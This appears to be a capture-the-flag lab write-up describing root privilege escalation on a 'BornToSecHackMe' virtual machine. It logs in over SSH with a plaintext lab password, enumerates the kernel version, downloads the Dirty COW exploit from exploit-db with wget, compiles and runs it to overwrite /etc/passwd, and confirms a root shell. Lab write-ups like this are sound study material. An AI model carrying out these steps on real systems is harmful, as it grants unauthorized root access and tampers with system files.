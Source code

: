 # Writeup2

The first step it to use the credentials of laurie which we got in writeup1.md.

ssh laurie@172.16.129.137
password : 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

Then we check the version of the linux kernel with :

```
uname -r
```

output : 3.2.0-91-generic-pae

Kernel version is 3.2.

Using searchsploit on the host machine, we check the possible vulnerabilites of the 3.2 version.


```
searchsploit linux kernel 3.2.0-91
```

output :

------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                          |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Linux Kernel (Solaris 10 / < 5.10 138888-01) - Local Privilege Escalation | solaris/local/15962.c
Linux Kernel 2.6.22 < 3.9 (x86/x64) - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (SUID Method) | linux/local/40616.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (/etc/passwd Method) | linux/local/40847.cpp
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW PTRACE_POKEDATA' Race Condition (Write Access Method) | linux/local/40838.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method) | linux/local/40839.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' /proc/self/mem Race Condition (Write Access Method) | linux/local/40611.c
Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64) - 'Mempodipper' Local Privilege Escalation (1) | linux/local/18411.c
Linux Kernel 2.6.39 < 3.2.2 (x86/x64) - 'Mempodipper' Local Privilege Escalation (2) | linux/local/35161.c
Linux Kernel 3.0 < 3.3.5 - 'CLONE_NEWUSER|CLONE_FS' Local Privilege Escalation | linux/local/38390.c
Linux Kernel 3.14-rc1 < 3.15-rc4 (x64) - Raw Mode PTY Echo Race Condition Privilege Escalation | linux_x86-64/local/33516.c
Linux Kernel 4.10.5 / < 4.14.3 (Ubuntu) - DCCP Socket Use-After-Free | linux/dos/43234.c
Linux Kernel 4.8.0 UDEV < 232 - Local Privilege Escalation | linux/local/41886.c
Linux Kernel < 3.16.1 - 'Remount FUSE' Local Privilege Escalation | linux/local/34923.c
Linux Kernel < 3.16.39 (Debian 8 x64) - 'inotfiy' Local Privilege Escalation | linux_x86-64/local/44302.c
Linux Kernel < 3.4.5 (Android 4.2.2/4.4 ARM) - Local Privilege Escalation | arm/local/31574.c
Linux Kernel < 3.5.0-23 (Ubuntu 12.04.2 x64) - 'SOCK_DIAG' SMEP Bypass Local Privilege Escalation | linux_x86-64/local/44299.c
Linux Kernel < 3.8.9 (x86-64) - 'perf_swevent_init' Local Privilege Escalation (2) | linux_x86-64/local/26131.c
Linux Kernel < 3.8.x - open-time Capability 'file_ns_capable()' Local Privilege Escalation | linux/local/25450.c
Linux Kernel < 4.10.13 - 'keyctl_set_reqkey_keyring' Local Denial of Service | linux/dos/42136.c
Linux kernel < 4.10.15 - Race Condition Privilege Escalation | linux/local/43345.c
Linux Kernel < 4.11.8 - 'mq_notify: double sock_put()' Local Privilege Escalation | linux/local/45553.c
Linux Kernel < 4.13.1 - BlueTooth Buffer Overflow (PoC) | linux/dos/42762.txt
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation | linux/local/45010.c
Linux Kernel < 4.14.rc3 - Local Denial of Service | linux/dos/42932.c
Linux Kernel < 4.15.4 - 'show_floppy' KASLR Address Leak | linux/local/44325.c
Linux Kernel < 4.16.11 - 'ext4_read_inline_data()' Memory Corruption | linux/dos/44832.txt
Linux Kernel < 4.17-rc1 - 'AF_LLC' Double Free | linux/dos/44579.c
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation | linux/local/44298.c
Linux Kernel < 4.4.0-21 (Ubuntu 16.04 x64) - 'netfilter target_offset' Local Privilege Escalation | linux_x86-64/local/44300.c
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local Privilege Escalation (KASLR / SMEP) | linux/local/43418.c
Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/16.04 / Linux Mint 17/18 / Zorin) - Local Privilege Escalation (KASLR / SMEP) | linux/local/47169.c
Linux Kernel < 4.5.1 - Off-By-One (PoC) | linux/dos/44301.c
------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------

We chose the Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method) exploit.

searchsploit is a tool used to find exploits available on https://www.exploit-db.com, the output Name is the same as the one on the website.

We filter by name and find it : https://www.exploit-db.com/exploits/40839

Let's copy the content of the code inside a new C programming file, diry_cow.c :

```
wget --no-check-certificate https://www.exploit-db.com/download/40839 -O dirty_cow.c
```

Comments inside dirty_cow.c explain how to compile and run the binary :

Compile with:
```
 gcc -pthread dirty.c -o dirty -lcrypt
```

Then run the newly create binary by either doing:
```
  ./dirty or ./dirty my-new-password
```

Doing as instructed :

```
./dirty
```

output :
  /etc/passwd successfully backed up to /tmp/passwd.bak
  Please enter the new password:

Let's use the character 'q' as new password.

output :

Complete line:
firefart:fi86Ixhn/lTi2:0:0:pwned:/root:/bin/bash

mmap: b7fda000


Terminating the program with ^C, we identify as the new user and provide the newly created password :

```
su firefart
```
password : q

We see we changed user :
firefart@BornToSecHackMe:/home/laurie#

```
whoami
```
output:
firefart

Let's confirm we have escalated to root and succeeded :

```
id
```
output:
uid=0(firefart) gid=0(root) groups=0(root)

